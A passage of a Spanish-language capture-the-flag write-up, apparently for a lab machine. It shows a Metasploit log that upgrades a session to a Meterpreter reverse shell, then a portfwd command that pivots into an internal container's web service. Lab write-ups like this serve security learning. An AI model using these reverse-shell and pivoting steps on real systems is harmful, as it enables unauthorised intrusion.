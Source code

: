 {% highlight bash %}
msf exploit(multi/handler) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.14.14:4433 
[*] Sending stage (861480 bytes) to 10.10.10.94
[*] Meterpreter session 2 opened (10.10.14.14:4433 -> 10.10.10.94:58956) at 2018-07-27 06:37:15 -0400
[*] Command stager progress: 100.00% (773/773 bytes)
msf exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter >
{% endhighlight %}

### Agregando Forwards

Ahora podemos agregar forwards a la session: `meterpreter > portfwd add -l 80 -r 172.19.0.4 -p 80`
Eso agregará un tunel del p:80 en mi máquina local al p:80 en 172.19.0.4.

# www / redis Containers
### Web Site p:80

Visitar http://127.0.0.1/

<figure>
<img src="/assets/img/7.png" alt="7">
</figure>

### View source code

Ver el codigo fuente del index

<figure>

[nmap]: https://github.com/nmap/nmap
[nodered]: https://quentinkaiser.be/pentesting/2018/09/07/node-red-rce/